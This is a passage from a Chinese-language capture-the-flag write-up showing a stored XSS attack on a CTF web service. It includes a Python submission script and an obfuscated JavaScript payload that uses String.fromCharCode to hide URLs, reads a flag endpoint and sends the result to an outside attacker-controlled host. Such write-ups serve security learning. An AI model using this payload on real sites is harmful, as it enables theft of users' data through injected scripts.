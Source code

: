 ​	通知AdminBot访问我们构造的恶意页面，获取其Hash

​	使用AdminHash提交我们的恶意脚本，提交代码如下，

```python
import requests

session = requests.Session()
headers = {
    'Cookie': 'Token=2333',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36'
}
Hash = 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855'
payload = '<script>fetch(String.fromCharCode(47, 97, 112, 105, 47, 102, 108, 97, 103)).then(function(response) {return response.text();}).then(function (text) {var img = new Image();img.src = String.fromCharCode(104,116,116,112,115,58,47,47,104,111,111,107,98,46,105,110,47,75,51,120,88,101,76,74,79,111,109,72,80,77,75,56,56,77,75,86,55,63,102,108,97,103,61) + encodeURIComponent(text);})</script>'
paramPost = {
    'Hash': Hash,
    'Raw': payload
}
resp = session.post('http://localhost:8080/api/create',
                    json=paramPost, headers=headers)
print(resp.content)
```

​	恶意脚本如下（获取FLAG）

```html
<script>
    fetch(String.fromCharCode(47, 97, 112, 105, 47, 102, 108, 97, 103))
    .then(function(response) {
        var img = new Image();
        img.src = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 
        111, 107, 98, 46, 105, 110, 47, 75, 51, 120, 88, 101, 76, 74, 79, 111, 109, 
        72, 80, 77, 75, 56, 56, 77, 75, 86, 55, 63, 102, 108, 97, 103, 61) // 攻击者控制的Web服务器
        + encodeURIComponent(response.text());
    })
</script>
```



​	当Admin访问我们的页面时（`/REDACTED/0`），我们的恶意Script将会被执行，形成Stored XSS。

![image-20210927190809809](/p1nant0m/img/in-post/post-inctf/image-20210927190809809.png)

​	我们注入的恶意脚本就从数据库中导出并且构成HTML文档的一部分，被浏览器解释执行，

![image-20210927191107611](/p1nant0m/img/in-post/post-inctf/image-20210927191107611.png)

​	最终我们可以在受我们控制的服务器中获得我们的FLAG，

![image-20210927191308837](/p1nant0m/img/in-post/post-inctf/image-20210927191308837.png)

